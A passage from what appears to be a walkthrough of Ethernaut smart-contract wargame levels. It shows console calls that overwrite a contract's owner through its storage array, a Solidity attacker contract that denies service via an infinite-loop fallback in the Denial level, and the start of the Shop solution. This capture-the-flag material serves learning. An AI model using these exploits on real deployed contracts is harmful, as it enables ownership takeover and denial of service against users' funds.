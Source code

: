 ```jsx
> await contract.retract() // The array length is set to a large value

> await contract.revise("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a", 
"0x000000000000000000000000136801a295932bEcE62ef615bEFC3DE0259D565F")

> await contract.owner()
< '0x136801a295932bEcE62ef615bEFC3DE0259D565F'
```

We can submit the instance now!

# 20. Denial

The withdraw function uses the low level `call` function to tranfer ether to the partner and it continues whether the call succeeds or not. From the documentation of solidity a call function forwards all the gas if the amount of gas to forward is not specified. To create a denial of service we can write a contract with a fallback payable function having an infinite loop and set **partner** to its address.

The hack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Denial.sol";

contract Test {
    Denial public dn;

    constructor() public {
        dn = Denial(0xf97545fAbf11c1838c18422d113d3520a96825c7);
    }

    function withdraw() public {
        dn.withdraw();
    }

    function addFunds() public payable {}

    fallback() external payable {
        while (true) {}
    }
}
```

# 21. Shop

The level is similar to **Elevator** except the fact that `price()` has a view restriction. So we cannot use a storage variable for conditional purposes. But if we see the `buy()` of the **Shop** contract carefully, the **isSold** variable is set to true before the `price()` is called again, so that’s it! We can use this varibale in our contract as conditional to return appropriate value of **price**.
